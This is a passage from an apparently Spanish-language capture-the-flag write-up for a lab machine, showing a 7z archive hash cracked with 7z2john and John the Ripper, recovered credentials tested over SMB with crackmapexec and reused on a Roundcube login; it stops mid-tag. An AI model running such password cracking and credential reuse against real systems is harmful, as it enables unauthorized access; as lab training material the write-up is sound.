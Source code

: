 Obtengamos el hash del archivo comprimido con la herramienta **7z2john**:
```bash
7z2john credentials.7z > hash
ATTENTION: the hashes might contain sensitive encrypted data. Be careful when sharing or posting these hashes
```

Y lo crackeamos con **JohnTheRipper**:
```bash
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 128/128 SSE2 4x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 6 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Cost 4 (data length) is 26 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
barcelona        (credentials.7z)     
1g 0:00:00:04 DONE (2025-10-02 00:01) 0.2369g/s 68.24p/s 68.24c/s 68.24C/s jackie..brenda
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Tenemos la contraseña.

Ahora sí, lo descomprimimos y nos da un archivo de texto. 

Leámoslo:
```bash
cat credentials.txt
bob:***********
```
Tenemos la contraseña del **usuario bob**.

Podríamos usar la contraseña para obtener una sesión vía **SSH**, pero podemos seguir usando la sesión actual.

Además, podemos ver qué privilegios tiene nuestro usuario:
```bash
bob@TheHackersLabs-Gyhabogados:~$ sudo -l
[sudo] password for bob: 
Sorry, user bob may not run sudo on TheHackersLabs-Gyhabogados.
```
No tiene ninguno.

La contraseña tampoco servirá para listar algún archivo compartido del **servicio Samba**:
```bash
crackmapexec smb 192.168.100.150 -u 'bob' -p '**********'
SMB         192.168.100.150 445    THEHACKERSLABS-GYHABOGADOS [*] Windows 6.1 Build 0 (name:THEHACKERSLABS-GYHABOGADOS) (domain:THEHACKERSLABS-GYHABOGADOS) (signing:False) (SMBv1:False)
SMB         192.168.100.150 445    THEHACKERSLABS-GYHABOGADOS [-] THEHACKERSLABS-GYHABOGADOS\bob:********** STATUS_LOGON_FAILURE
```

Pero si usamos el usuario y contraseña en el login de **Roundcube**, ganaremos acceso:

<p align="center">